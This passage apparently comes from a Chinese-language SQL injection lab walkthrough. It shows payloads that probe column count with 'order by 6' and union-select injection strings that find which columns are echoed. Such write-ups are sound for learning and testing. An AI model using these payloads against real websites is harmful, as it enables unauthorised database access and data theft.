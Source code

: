 通过这种方式进行测试，测试`order by`

```
?id=1' order by 6--+
在7时没出现该有的数据，所有只有6个
```

![](./pic-2/8-3.jpg)



#### union select

使用`union`进行查询，前面已经知道表为`users`，在`git`中，先测试回显，我这里浏览器看不到啊

```
?id=-1' union select 1,2,3,4,5,6--+
```

结合前面，当`value`有值时，即回显，有四处，2，3，5，6
